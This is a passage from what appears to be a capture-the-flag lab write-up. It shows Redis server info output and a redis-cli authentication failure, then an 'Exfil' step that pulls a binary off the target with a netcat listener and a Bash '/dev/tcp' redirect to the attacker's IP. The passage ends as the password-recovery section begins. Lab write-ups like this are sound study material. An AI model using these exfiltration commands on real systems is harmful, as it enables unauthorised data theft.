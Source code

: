 ```
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:10.2.1
process_id:669
run_id:8ab08023e46192e4b800b3804e6c00b912241809
tcp_port:6379
uptime_in_seconds:12535
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:13472561
executable:/usr/bin/redis-server
config_file:/etc/redis/redis.conf
io_threads_active:0
 <nil>

```

This looks like the result of the `info server` command. `redis-cli` is on the box, however, if I try to connect, it’s asking for auth:

```

dan_smith@shared:~$ redis-cli 
127.0.0.1:6379> info
NOAUTH Authentication required.

```

#### Exfil

I’ll start `nc -lnvp 445 > redis_connector_dev` on my host, and then send the file via Bash:

```

dan_smith@shared:~$ cat /usr/local/bin/redis_connector_dev > /dev/tcp/10.10.14.6/445

```

The file arrives:

```

oxdf@hacky$ nc -lnvp 445 > redis_connector_dev
Listening on 0.0.0.0 445
Connection received on 10.10.11.172 36236

```

### Get Password

#### Dynamically

If I run the binary on my system, it fails to connect:
